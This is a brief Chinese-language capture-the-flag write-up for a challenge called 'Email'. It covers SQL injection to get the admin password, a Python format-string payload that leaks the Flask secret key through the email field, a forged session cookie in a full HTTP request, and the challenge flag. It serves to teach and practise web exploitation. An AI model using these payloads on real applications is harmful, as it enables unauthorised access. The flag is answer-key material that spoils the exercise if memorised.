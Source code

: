 # Email

## 思路分析

> 注册账号,登陆后发现提示要成为admin用户,cookie中session是jwt,按照经验是要找到密钥,然后进行替换.用c-jwt-cracker未果.在注册处发现存在SQL注入漏洞,利用脚本跑到了admin密码为h4ck4fun

> 登陆后提示访问flag目录,这个页面只有session中isadmin的值为1时才可以,此时多了一个修改邮箱的功能,mail参数多次尝试,发现存在格式化字符串漏洞

```
{user.__class__.__init__.__globals__[current_app].config}
```

> 找到了密钥,然后伪造session,访问flag目录得到flag

## payload

```
GET /flag HTTP/1.1
Host: 61.147.171.105:56869
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:56869/user/login/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: commodity_id="2|1:0|10:1683808918|12:commodity_id|8:MTYyNA==|11febe9bb1e0e93ad9a9298f3b09b7d18e5518bfaf0d594587b7139d3b51f4fc"; session=.eJyrVsosTkzJzcxTsjLUUSotTi1SsqpWUihRsooG8iEyUNoBTOol5-cqxdbWAgAK8RKR.ZF5C6Q.zFQA8gXzwlLl-ceLEESuYlmByF4
Connection: close
```

## flag

> flag{d02c4c4cde7ae76252540d116a40f23a}